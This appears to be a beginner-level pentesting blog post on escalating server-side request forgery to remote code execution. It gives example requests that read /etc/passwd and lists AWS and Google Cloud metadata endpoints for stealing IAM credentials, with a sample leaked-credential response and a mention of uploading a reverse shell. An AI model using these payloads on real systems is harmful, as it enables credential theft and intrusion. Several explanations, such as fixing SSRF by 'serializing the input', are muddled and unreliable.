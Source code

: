 ```yaml
---
layout: post
published: true
title: ssrf exploitation for rce part:2
tags:
 - ssrf
 - web pentesting
 
comments: true

---
```


# Introduction
hey folks! what’s up? This is my second artice about ssrf exploitation if you doesn’t read part 1 you can read it from in this article here I divided ssrf there in two types according to my resarch blind ssrf and untrusted input So, i picked up remote code execution via untrusted input in ssrf and also discuss about role of ssrf in xxe and request smuggling and next article will be about all of chaining bugs with ssrf :p
I also wanna cover Os command injection and bypassing admin panel dashboard with server side request forgery but for the sake of length i decided to shortern this article

# Basic Plot Overview
This post is gonna all about obtaining remote code execution with ssrf since it’s not bigginer friendly article i hope so you have clear concept about url terminology if you have any uncleared concept about methedology of url then you can read it from the article written by my friend here
For the concept of ssrf back end db and how data fetch from url is so important without these concept you can’t fully undertsand ssrf let me tell you a example:-
*this is not real word example*

suppose you’r friend asking a birthday gift from you and you send it via from an courier let’s talk this example in application way in this example you are back end, let’s say courierman is server and your friend is user what’s happening here same as above the example you (back end) giving data to server(courier man) but server doesn’t have understanding of giving data his job is to send data taken from backbend and serving to user. User fetch data from server by issuing requests that’s all

# Exploitation

every web server contains confidential files which which is used for db-config,admin-config,phpinfo(),etc. since we know how a normal user fetch data from server by issuing a request let’s take an anothher example suupose we have a url :
https://www.forttesting.com?file=500.png
here we have a url what’s happening here a parameter names file is fetching 500.png file from webserver but happens if we replace it to
https://www.forttesting.com?file=file:///etc/passwd
It gives us files of users on server file:// is a protocal we talk about this protocols in later sections It gives us everything blindly if there is no input sanitization like
https://www.forttesting.com?file=http://localhost
In above piece of exploit if there is ssrf vulnerablity present on server we can download full data of localhost by using wget that was basic extraction of files but this will be considered as code injection So. for obtaining rce you have to some knowledge about cloud computing if you don’t have don’t worry read it later there are mostly two type of cloud plateforms used widely google cloud and amazon web services let’s talk about amazon web services
http://169.254.169.254/latest/meta-data/iam/security-credentials/
this endpoint will leak the list of roles of user with their security credentials there are other many endpoint by exploiting we can obtain rce in aws but this one is my favourite so i wrote this in article okay! here is list of endpoint of aws we can disclose while exploiting ssrf
```
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
payload-credit- cobalt.io
```
here i found few payloads on cobalt o i added in articles So after issuing
https://www.forttesting.com?file=http://169.254.169.254/latest/meta-data/iam/security-credentials
you will get access key id, password, etc. like this:
**{
“LastUpdated” : “2019–08–03T20:42:03Z”,“Type” : “AWS-HMAC”,
“AccessKeyId” : “ASIA5A6IYGGDLBWIFH5UQ”,
“SecretAccessKey” : “sMX7//Ni2tu2hJua/fOXGfrapiq9PbyakBcJunpyR”,“Token” : “AgoJb3JpZ2luX2VjEH0aCXVzLWVhc3QtMSJHMEUCIQDFoFMUFs+lth0JM2lEddR/8LRHwdB4HiT1MBpEg8d+EAIgCKqMjkjdET/XjgYGDf9/eoNh1+5Xo/tnmDs“Expiration” : “2019–08–04T03:16:50Z”
}**

then just setup aws-cli and hack the web application byt uploading reverse shell that’s all about aws cli we can hack the user roles and simply hacking the web application of aws now in google cloud method is same of extracting informattion and files but endpoint is unique

```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
that’s how rce works in ssrf we can patch ssrf by serializing the input Now, how ssrf works with other bugs let’s consider http request smuggling we send data via chunked but how ssrf plays a vital role in this vulnerablity? as i said earlier sever is very innocent who doesn’t know what to send In request smuggling vulnerablity the user manuplates the back end by isuuing chunked and craft malicious header so with the help of ssrf http request smuggling can extract dangreous files which leads to harm to the website
I also wanna tak about xml injection with ssrf but since, article is getting longer so, i end this article here and check the resouirces they have awesome writeups about ssrf
https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/
```
For further refrence:

My First Bug: Blind SSRF Through Profile Picture Upload
A writeup of my first bug!
infosecwriteups.com

SSRF (Server Side Request Forgery)
If the server is correctly protected you could bypass all the restrictions by exploiting an Open Redirect inside the…
book.hacktricks.xyz

How To: Server-Side Request Forgery (SSRF)
Server-Side Request Forgery, SSRF for short, is a vulnerability class that describes the behavior of a server making a…
www.hackerone.com





